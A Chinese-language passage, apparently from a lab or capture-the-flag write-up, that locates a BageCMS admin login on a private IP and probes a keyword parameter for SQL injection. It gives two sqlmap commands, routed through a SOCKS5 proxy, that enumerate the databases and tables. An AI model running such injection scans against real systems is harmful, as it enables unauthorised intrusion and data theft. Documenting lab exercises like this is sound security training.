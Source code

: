 ![截图](23808e3af75a0cfe8f53229dcf708973.png)

根据提示可以找到登录界面http://192.168.22.22/index.php?r=admini/public/login

![截图](352552eaf8b907f3659ecad7e8aa92f5.png)

尝试登陆后，发现该接口可能存在sql注入漏洞，使用sqlmap进行测试。

```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch --dbs --proxy=socks5://127.0.0.1:1080
```

![截图](2ff27f929842ffa6ad40d95913420a9e.png)

```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms --tables  --proxy=socks5://127.0.0.1:1080
```
